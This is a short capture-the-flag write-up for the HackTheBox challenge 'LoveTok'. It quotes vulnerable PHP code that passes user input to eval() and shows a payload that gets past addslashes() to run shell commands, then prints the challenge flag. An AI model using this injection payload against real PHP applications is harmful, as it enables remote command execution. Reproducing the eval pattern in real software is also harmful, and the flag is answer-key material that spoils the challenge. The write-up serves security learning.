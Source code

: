 # LoveTok
> From HackTheBox: [LoveTok](https://app.hackthebox.com/challenges/lovetok)

## Solution

Download the source code and focus on `TimeModel.php`:
```php
<?php
class TimeModel
{
    public function __construct($format)
    {
        $this->format = addslashes($format);

        [ $d, $h, $m, $s ] = [ rand(1, 6), rand(1, 23), rand(1, 59), rand(1, 69) ];
        $this->prediction = "+${d} day +${h} hour +${m} minute +${s} second";
    }

    public function getTime()
    {
        eval('$time = date("' . $this->format . '", strtotime("' . $this->prediction . '"));');
        return isset($time) ? $time : 'Something went terribly wrong';
    }
}
```
We can use `Command Injection` (like that: `?format=${system($_GET['pwd'])}`) here but having to bypass `addslashes()` [function](https://www.php.net/manual/en/function.addslashes.php)
because the single quote `'` is added slash.

Payload: `?format=${system($_GET[param])}&param=pwd`
![img.png](img.png)

Next using `ls` and `cat` to get the flag:
![img_1.png](img_1.png)
![img_2.png](img_2.png)

Flag: `HTB{wh3n_l0v3_g3ts_eval3d_sh3lls_st4rt_p0pp1ng}`

## References
+ https://swordandcircuitboard.com/php-addslashes-command-injection-bypass/
+ https://www.php.net/manual/en/function.addslashes.php


